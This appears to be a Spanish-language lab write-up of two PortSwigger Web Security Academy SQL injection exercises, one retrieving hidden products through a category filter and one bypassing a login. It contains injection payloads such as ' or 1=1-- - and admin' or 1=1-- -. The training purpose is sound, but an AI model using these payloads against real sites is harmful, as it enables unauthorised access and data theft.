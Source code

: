 # SQL Injection

## SQL Injection

URL = https://portswigger.net/web-security/all-labs

### Lab: SQL Injection vulnerability in WHERE clause allowing retrieval of hidden data

Si le damos a una de las etiquetas del filtro vemos que en la URL hace una comparacion, por lo que si hacemos lo siguiente filtrariamos todo lo que hay en la base de datos que es el proposito...

```
URL = https://0aac001703bff4ba80fdd598003e00c1.web-security-academy.net/filter?category=Lifestyle' or 1=1-- -
```

Lo que hemos añadido es lo siguiente...

```mysql
' or 1=1-- -
```

Que quedaria visto desde la terminal de `mysql` de la siguiente manera...

```mysql
select * from products where 'lifestyle' and released = 1;
```

```mysql
select * from products where 'input' or 1=1-- -' and released = 1;
```

<figure><img src="../.gitbook/assets/sql1.png" alt=""><figcaption></figcaption></figure>

### Lab: SQL Injection vulnerability allowing login bypass

En este caso vemos una pagina web con un login y lo que tenemos es que pasarlo utilizando SQL Injection, haremos lo siguiente...

```
username = admin' or 1=1-- -
password = <LO_QUE_SEA>
```
